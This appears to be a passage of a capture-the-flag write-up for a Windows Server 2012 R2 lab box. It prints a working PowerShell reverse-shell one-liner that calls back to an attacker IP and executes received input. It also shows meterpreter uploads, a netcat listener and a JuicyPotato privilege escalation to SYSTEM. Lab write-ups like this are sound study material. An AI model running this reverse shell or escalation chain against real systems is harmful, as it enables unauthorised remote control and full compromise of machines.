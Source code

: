 First we create a `.bat` script to run a `Powershell` command that connects back to us.
{% highlight raw %}
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.XX.XX',XXXX); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ ;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}; $client.Close()"
{% endhighlight %}

Then we use `meterpreter` to upload the files to the box:
{% highlight raw %}
meterpreter > upload /root/Desktop/web/x.bat C:\\tmp
[*] uploading  : /root/Desktop/web/x.bat -> C:\tmp
[*] uploaded   : /root/Desktop/web/x.bat -> C:\tmp\x.bat
meterpreter > upload /root/Desktop/web/JuicyPotato.exe C:\\tmp
[*] uploading  : /root/Desktop/web/JuicyPotato.exe -> C:\tmp
[*] uploaded   : /root/Desktop/web/JuicyPotato.exe -> C:\tmp\JuicyPotato.exe
{% endhighlight %}

Next we start a listener on our machine:
{% highlight bash %}
$ nc -lvnp XXXX
listening on [any] XXXX ...
{% endhighlight %}

To use `JuicyPotato.exe`, we need to know the `CLSID` based on the box's Windows version `Microsoft Windows Server 2012 R2 Datacenter` (The version can be retrieved by running `systeminfo` on the box.). The CLSID can be gotten from [here](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter/). Make sure the User belonging to the CLSID you have chosen is `NT AUTHORITY/SYSTEM`.

The last step would be to run `JuicyPotato.exe` on the box.
{% highlight raw %}
c:\tmp> JuicyPotato.exe -l XXXX -p c:\tmp\x.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} XXXX
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
{% endhighlight %}

On our listener, we caught the connection:
{% highlight raw %}
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.158] 52604
PS C:\Windows\system32> whoami
nt authority\system
{% endhighlight %}

# root.txt

{% highlight raw %}
PS C:\Windows\system32> more C:\Users\superadmin\Desktop\root.txt
3cc8XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !
